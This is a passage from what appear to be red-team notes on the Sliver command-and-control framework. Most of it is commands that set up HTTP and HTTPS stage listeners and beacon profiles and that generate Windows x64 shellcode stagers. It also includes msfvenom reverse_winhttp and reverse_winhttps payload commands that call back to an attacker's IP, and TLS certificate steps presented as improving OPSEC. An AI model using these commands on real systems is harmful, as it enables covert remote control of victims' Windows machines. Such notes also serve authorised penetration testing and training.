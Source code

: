 ```
sliver > https -L <IP> -l 4488

sliver > profiles new beacon -b https://<IP>:4488 -S 5 -J 10 -l -a x64 -o windows -f shellcode stager-shellcode

sliver > stage-listener -u http://<IP>:8080 [-P] -p stager-shellcode

sliver > generate stager -r http -L <IP> -l 8080 -a x64 -o windows -f raw -s sliver-http-stager.bin
```

* Or you can generate it with `msfvenom`

`$ msfvenom -p windows/x64/custom/reverse_winhttp lhost=<IP> lport=8080 luri=/shellcode.woff -f raw -o sliver-http-stager.bin`

#### 4.3.2.4 - HTTPS

1. Use custom TLS key and certificate (this is optional but recommended for OPSEC)

Encrypted TLS key and certification

```
$ openssl req -x509 -newkey rsa:4096 -keyout keyfile.pem -out certificate.pem -sha256 -days 365

$ openssl x509 -in certificate.pem -text -noout

$ openssl rsa -in keyfile.pem -check > key.pem
```

Non-encrypted TLS key and certification

```
$ openssl req -new -x509 -keyout key.pem -out certificate.pem -days 365 -nodes

sliver > mtls -L <IP> -l 4488

sliver > profiles new -m <IP>:4488 -l -a x64 -o windows -f shellcode stager-shellcode

sliver > stage-listener -u https://<IP>:8080 -C <zlib | gzip | deflate9> -c /path/to/certificate.pem -k /path/to/key.pem [-P] -p stager-shellcode

sliver > generate stager -r https -L <IP> -l 8080 -a x64 -o windows -f raw -s sliver-https-stager.bin
```

Or you can generate it with `msfvenom`

```
$ msfvenom -p windows/x64/custom/reverse_winhttps lhost=<IP> lport=8080 luri=/shellcode.woff -f raw -o sliver-https-stager.bin
```

## 4.4 - Implants

### 4.4.1 - Help Menu

